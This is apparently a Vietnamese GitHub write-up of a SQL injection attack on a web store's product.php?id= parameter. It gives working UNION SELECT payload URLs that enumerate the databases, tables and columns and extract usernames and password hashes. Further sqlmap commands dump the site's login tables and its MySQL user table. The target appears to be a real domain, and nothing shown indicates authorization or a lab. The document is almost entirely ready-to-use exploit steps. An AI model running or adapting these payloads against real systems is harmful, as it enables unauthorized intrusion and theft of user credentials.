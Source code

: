 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/f1267547-fce3-4a83-8b3a-c647b831057b)

![image](https://github.com/user-attachments/assets/f9557a86-761c-4539-8d4a-e08855dc7b98)

![image](https://github.com/user-attachments/assets/8b967633-6006-433d-80f3-3611674607cc)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30

![image](https://github.com/user-attachments/assets/81472dc4-9128-4b8a-a717-ee4fadbfa595)

![image](https://github.com/user-attachments/assets/0935da4c-e509-4d8d-9af8-eefd9a3a2906)

![image](https://github.com/user-attachments/assets/9987c07c-51a6-4722-9bc7-7745975c3fde)

![image](https://github.com/user-attachments/assets/9ea8ba0d-4071-424b-98bb-1dde03b22b6f)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

